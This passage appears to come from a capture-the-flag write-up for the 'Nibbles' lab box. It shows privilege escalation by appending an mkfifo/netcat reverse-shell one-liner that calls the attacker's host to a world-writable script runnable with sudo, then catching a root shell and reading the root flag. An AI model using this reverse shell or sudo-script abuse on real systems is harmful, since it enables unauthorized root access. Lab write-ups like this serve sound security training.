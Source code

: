 But it doesn’t really matter, since the script is world-writable:

```

nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 80 Jun 24 07:27 monitor.sh

```

In fact, if you are on the free, you’re very likely to find this file completely overwritten with other people’s privesc.

Rather than bluntly overwriting the script, we’ll append our shell to the end:

```

nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh
< /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh

```

```

root@kali# nc -lnvp 8083
listening on [any] 8083 ...
connect to [10.10.15.154] from (UNKNOWN) [10.10.10.75] 52184
# id
uid=0(root) gid=0(root) groups=0(root)

```

### root.txt

Now it’s easy to grab the root flag:

```

# cd /root
# wc -c root.txt
33 root.txt
# cat root.txt
b6d745c0...

```